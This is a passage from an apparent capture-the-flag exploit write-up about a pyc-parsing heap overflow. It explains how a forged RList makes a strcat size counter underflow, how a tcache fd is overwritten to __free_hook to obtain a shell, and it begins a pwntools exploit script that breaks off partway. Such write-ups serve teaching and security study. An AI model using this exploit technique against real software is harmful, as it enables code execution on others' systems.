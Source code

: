 ```c
    break;
```
However as mentioned before, the `consts` variable can be a fake RList structure forged by a user supplied payload. This implies that the argument to `generic_array_obj_to_string` can be an arbitrary pointer. Therefore, we can create a condition where `e->data` changes between `[1]` and `[2]`.

One easy idea is to make `e->data` equal to `buf`. However, makeing `buf` and `e->data` overlap causes `strcat` to loop infinitely, as mentioned in the man page of strcat.

So, we make the second call to `strcat` (appending ",") change `e->data`. So we carefully forge `RList *l` so that it satisfies the following conditions.

```
1. l has 3 entries.
2. The first entry is a string with length 254.
3. The second entry points to buf + 255
4. The third entry contains the string to overflow the buffer
```

Now, let's process the entries one by one. 

1. When the first entry is processed, `size` will be reduced to `256 - 254 - 1 = 1`. 
2. During the processing of the second entry, `realloc` will not be called because `strlen(e->data)` is 0 and `size` is 1. `strlen(e->data)` is 0 because `e->data` points to `buf` + 255 which is the middle of an untouched `calloc`'ed buffer. However, `strlen(e->data)` in `[2]` is 1, due to the added "," character. Therefore `size` becomes `1 - 1 - 1` which is 0xFFFFFFFF. 
3. Now that `size` is INT_MAX we can `strcat` anything without worrying about size limit. 

There are many structures to overwrite, but I chose to overwrite the `fd` of a tcache bin to `__free_hook`. Afterwards using a pyc float object I got `__free_hook` allocated and obtained a shell. 

Here is my exploit script. 

```python
#!/usr/bin/python3
from pwn import *
import sys
import subprocess

def string_object(data):
    return b"s" + p32(len(data)) + data

def string_object_with_ref(data):
    return p8(ord("s")^0x80) + p32(len(data)) + data

def list_object(objects):
    n = len(objects)
    pay = b"["
    pay += p32(n)
    for x in objects:
        pay += x
    return pay

def tuple_object(objects):
    n = len(objects)
    pay = b"("
    pay += p32(n)
    for x in objects:
        pay += x
    return pay

def stringref_object(ref):
    pay = b"R"
    pay += p32(ref)
    return pay

def interned_object(data):
```